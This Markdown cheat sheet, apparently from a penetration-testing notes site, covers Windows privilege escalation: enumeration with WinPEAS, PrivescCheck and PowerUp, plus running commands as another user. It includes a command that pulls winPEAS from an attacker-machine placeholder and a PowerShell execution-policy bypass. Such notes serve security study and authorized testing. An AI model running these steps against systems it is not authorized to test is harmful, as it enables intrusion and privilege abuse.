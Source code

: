 ```yaml
---
title: "Windows privilege escalation"
weight: 3
description: "Learn about various techniques and methods for privilege escalation on Windows systems, including UAC bypass, credential dumping and more, with detailed notes and code examples."
---
```


> **Note**: If you have a valid user credential you can authenticate in windows target from SMB, RDP, WinRM.

---

## Automation script

**[WinPEAS](https://github.com/peass-ng/PEASS-ng/tree/master/winPEAS)**
```powershell
powershell

# Transfer winPEAS file
iwr -uri http://<ATTACKER_MACHINE>/winPEASx64.exe -Outfile winPEAS.exe

.\winPEAS.exe
```

**[PrivescCheck](https://github.com/itm4n/PrivescCheck)**
```dos
powershell -ep bypass -c ". .\PrivescCheck.ps1; Invoke-PrivescCheck"
```

**[PowerUp.ps1](https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc)** - [Docs](https://powersploit.readthedocs.io/en/latest/Privesc/)
```powershell
powershell -ep bypass
. .\PowerUp.ps1

# Now you can run commands like Get-ModifiableServiceFile
Get-ModifiableServiceFile
```

> **Warning**: You should **never fully trust the output of a tool**, as it can sometimes be incorrect even on simple tasks like detecting the target machine’s operating system.

---

## Execute commands as another user

* If the user is a member of the **Remote Desktop Users** group --> connect with RDP
* If the user is a member of the **Remote Management Users** group --> connect with WinRM
* If **you have access to a GUI** with an other user, you can use `Runas` to run a program as a different user. 

```powershell
runas /user:<USERNAME> cmd
```
After entering the password, a new command-line window opens, running under the specified user's account.

---